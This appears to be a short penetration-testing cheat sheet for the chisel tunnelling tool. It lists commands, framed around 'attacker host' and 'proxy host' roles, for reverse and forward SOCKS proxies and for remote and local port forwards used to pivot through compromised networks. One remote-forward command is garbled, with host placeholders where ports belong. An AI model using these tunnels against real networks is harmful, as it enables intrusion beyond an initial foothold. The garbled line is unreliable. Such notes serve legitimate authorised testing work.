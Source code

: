 # chisel

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Reverse SOCKS Proxy

On attacker host:
```
./chisel server -p LPORT --reverse &
```

On proxy host:
```
./chisel client RHOST:RPORT R:socks &
```

Then use proxychains.

## Forward SOCKS Proxy

On proxy host:
```
./chisel server -p LPORT --socks5
```

On attacker host:
```
./chisel client RHOST:RPORT LPORT:socks
```

Then use proxychains.

## Remote Port Forward

Attacker host:
```
./chisel server -p LPORT --reverse &
```

Proxy host:
```
./chisel client RHOST:RHOST R:LPORT:RHOST:RHOST &
```

## Local Port Forward

Proxy host:
```
./chisel server -p LPORT
```

Attacker host:
```
./chisel client RHOST:RPORT LPORT:RHOST:RPORT
```
